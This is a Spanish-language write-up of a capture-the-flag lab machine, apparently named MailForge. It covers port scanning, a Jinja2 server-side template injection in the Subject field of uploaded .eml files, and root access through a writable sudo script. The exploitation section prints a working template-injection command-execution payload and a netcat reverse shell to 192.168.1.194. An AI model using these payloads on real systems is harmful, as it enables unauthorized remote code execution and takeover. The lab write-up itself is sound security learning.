

# Reconocimiento
Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:
```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv [IP] -oN puertos.txt
```
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                                                                                     
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 10.2 (protocol 2.0)                                                                                                                                                 
80/tcp   open  http    syn-ack ttl 64 nginx                                                                                                                                                                       
| http-methods:                                                                                                                                                                                                   
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                      
|_http-title: Did not follow redirect to http://mailforge.nyx/                                                                                                                                                    
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 3.1.4 (Python 3.12.12)                                                                                                                                       
| http-methods:                                                                                                                                                                                                   
|_  Supported Methods: OPTIONS GET HEAD                                                                                                                                                                           
|_http-title: MailForge - Email Preview Service                                                                                                                                                                   
|_http-server-header: Werkzeug/3.1.4 Python/3.12.12
```
Añadimos el dominio http://mailforge.nyx/ al `/etc/hosts` de nuestra maquina

Al explorar el puerto 80, encontramos un mensaje simple: "MailForge says: Hello". Sin embargo, en el puerto 5000, descubrimos una aplicación denominada "MailForge - Email Preview Service".

En el puerto 5000 encontramos lo siguiente


La funcionalidad principal permite a los usuarios subir archivos con extensión `.eml` para previsualizar su contenido.

Creamos un archivo de prueba `test.eml`
```eml
From: alherrero@gmail.com
To: test@gmail.com
Subject: test
Date: Sun, 10 Jan 2026 10:43:44 +0200

Hello world!
```

Al cargarlo, observamos que los campos Subject, From y To se renderizan directamente en la página.


# Explotación

Tras realizar diversas pruebas con diferentes payloads en los campos del archivo `.eml`, confirmamos una vulnerabilidad de SSTI (Server-Side Template Injection) en el campo Subject.
```eml
From: alherrero@gmail.com
To: test@gmail.com
Subject: {{7*7}}
Date: Sun, 10 Jan 2026 10:43:44 +0200

Hello world!
```
El resultado renderizado fue 49, confirmando que el motor de plantillas (Jinja2, dado el entorno Werkzeug/Python) está ejecutando código.


Para escalar de SSTI a RCE, utilizamos el siguiente payload diseñado para acceder al módulo os y ejecutar comandos del sistema:
```java
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```


Confirmada la ejecución, procedemos a enviarnos una Reverse Shell:

```java
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc 192.168.1.194 9001 -e sh').read() }}
```


# Escala de privilegios

Una vez dentro del sistema como el usuario `mailforge`, revisamos si podemos ejecutar algún comando como root con `sudo -l`.



Identificamos que el usuario actual puede ejecutar como root el script `/usr/local/bin/cleaner.sh` sin necesidad de contraseña.

Podemos ejecutar como root el script `/usr/local/bin/cleaner.sh`

Al revisar los permisos del archivo, detectamos que tenemos permisos de escritura sobre el mismo. Esto nos permite inyectar código malicioso directamente en un binario que será ejecutado con privilegios elevados.

Modificamos el contenido del script para que nos devuelva una shell de root:


Finalmente, ejecutamos el script con sudo:

```bash
sudo /usr/local/bin/cleaner.sh
```


Ya somos root! 🎉
